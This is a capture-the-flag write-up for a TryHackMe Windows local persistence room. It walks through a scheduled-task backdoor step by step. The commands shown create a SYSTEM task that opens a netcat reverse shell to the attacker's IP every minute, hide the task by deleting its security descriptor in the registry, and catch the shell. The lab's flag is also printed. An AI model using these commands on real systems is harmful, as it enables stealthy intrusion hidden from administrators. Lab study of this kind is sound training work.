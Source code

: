 # About This Module
Module link: https://tryhackme.com/room/windowslocalpersistence

**Please feel free to point out any errors that you may see in this writeup!**

This writeup was last updated: 07/06/2023

# Task Scheduler
1. Started this task's machine
2. `schtasks /create /sc <FREQUENCY TYPE> /mo <FREQUENCY> /tn <TASK NAME> /tr "<NETCAT LOCATION> -e cmd.exe <ATTACK MACHINE IP> <PORT NUMBER>" /ru <USER ACCOUND>` from the compromised Windows machine to create and run a new scheduled task that'll try creating a reverse shell by attempting to connect to a netcat listener on our attack machine at the specified port in a specified frequency 
```PowerShell
C:\Users\Administrator>schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.39.232 9999" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```
3. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to verify that our task is running as intended, which it was 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
THM-taskbackdoor                         7/7/2023 12:54:00 AM   Ready
```
4. `c:\tools\pstools\PsExec64.exe -s -i regedit` from the compromised Windows machine to run the Windows Registry Editor with elevated privileges and in the context of the SYSTEM account, which will allow us to delete our created task's Security Descriptor (**SD**) that's located in the **HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree** registry, which will end up making it invisble to any user in the system since deleting a task's SD is equivalent to disallowing all users' access to the scueduled task, including administrators
```PoweShell
C:\Users\Administrator>c:\tools\pstools\PsExec64.exe -s -i regedit

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com
```

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/PsExec64.exe%20-s%20-i%20regedit.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

![](https://github.com/JonmarCorpuz/TryHackMe-Writeups/blob/main/TryHackMe%20Module%20Task%20Writeups/Assets/Registry%20Editor%20After%20Delete%20HKLM%20SOFTWARE%20Microsoft%20Windows%20NT%20CurrentVersion%20Schedule%20TaskCache%20Tree.png)

5. `schtasks /query /tn <TASK NAME>` from the compromised Windows machine to retrieve and display onto our terminal the details of the task that we just created to see if it's now hidden after deleting its SD, which it was since our system couldn't find the task 
```PowerShell
C:\Users\Administrator>schtasks /query /tn THM-taskbackdoor
ERROR: The system cannot find the file specified.
```
6. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener to listen for any inbound connections, which ended up receiving a reverse shell connection that was spawned in by the scheduled task we created on the compromised Windows machine
```Bash
root@ip-10-10-39-232:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.61.182 49841 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
7. `C:\flags\flag9.exe` from our reverse shell to run the **flag9.exe** program, which ended up displaying this task's flag onto our terminal
```PowerShell
C:\Windows\system32>C:\flags\flag9.exe
C:\flags\flag9.exe
THM{JUST_A_MATTER_OF_TIME}
```

**TASK COMPLETED**
